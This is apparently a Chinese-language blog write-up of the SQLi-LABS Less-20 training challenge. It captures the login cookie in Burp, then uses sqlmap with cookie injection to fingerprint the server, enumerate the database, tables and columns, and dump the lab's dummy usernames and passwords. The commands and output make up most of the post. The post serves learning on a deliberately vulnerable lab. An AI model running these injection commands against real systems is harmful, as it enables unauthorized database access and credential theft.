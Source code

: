 ```yaml
---
layout: post
title: "cookie-injections-sqlmap"
date: 2019-05-20
author: jjnoob
categories:
- 2019-05
tags:
- sqli
- sqlmap
- cookie
---
```


* content
{:toc}

题目地址: SQLi-LABS Page-1(Basic Challenges) -> Less-20 


# cookie
用户和密码都输入`admin`

burp抓包, proxy里面查看cookie:
```
GET /Less-20/index.php HTTP/1.1
Host: 43.247.91.228:84
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://43.247.91.228:84/Less-20/index.php
Connection: keep-alive
Cookie: uname=admin
Upgrade-Insecure-Requests: 1
```

登陆的cookie是`uname=admin`


<br />

# sqlmap

## 尝试
```
sqlmap.py -u "http://43.247.91.228:84/Less-20/index.php" --cookie "uname=admin" --level=2
```

> * HTTP Cookie在level为2及以上的时候会测试.
> * HTTP User-Agent/Referer头在level为3及以上的时候会测试.


返回:
```
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.5
```

## 爆库
```
sqlmap -u "http://43.247.91.228:84/Less-20/index.php" --cookie "uname=admin" --level=2 --current-db
```

返回:
```
current database: 'security'
```

## 爆表
```
sqlmap -u "http://43.247.91.228:84/Less-20/index.php" --cookie "uname=admin" -D security --tables --level=2
```

返回:
```
Database: security
[4 tables]
+----------+
| emails   |
| referers |
| uagents  |
| users    |
+----------+
```

## 爆字段
```
sqlmap -u "http://43.247.91.228:84/Less-20/index.php" --cookie "uname=admin" -D security -T users --columns --level=2
```

返回:
```
Database: security
Table: users
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(3)      |
| password | varchar(20) |
| username | varchar(20) |
+----------+-------------+
```

## 查看字段信息
```
sqlmap -u "http://43.247.91.228:84/Less-20/index.php" --cookie "uname=admin" -D security -T users -C password,username --level=2 --dump
```

返回:
```
Database: security
Table: users
[13 entries]
+------------+----------+
| password   | username |
+------------+----------+
| Dumb       | Dumb     |
| I-kill-you | Angelina |
| p@ssword   | Dummy    |
| crappy     | secure   |
| stupidity  | stupid   |
| genious    | superman |
| mob!le     | batman   |
| admin      | admin    |
| admin1     | admin1   |
| admin2     | admin2   |
| admin3     | admin3   |
| dumbo      | dhakkan  |
| admin4     | admin4   |
+------------+----------+
```
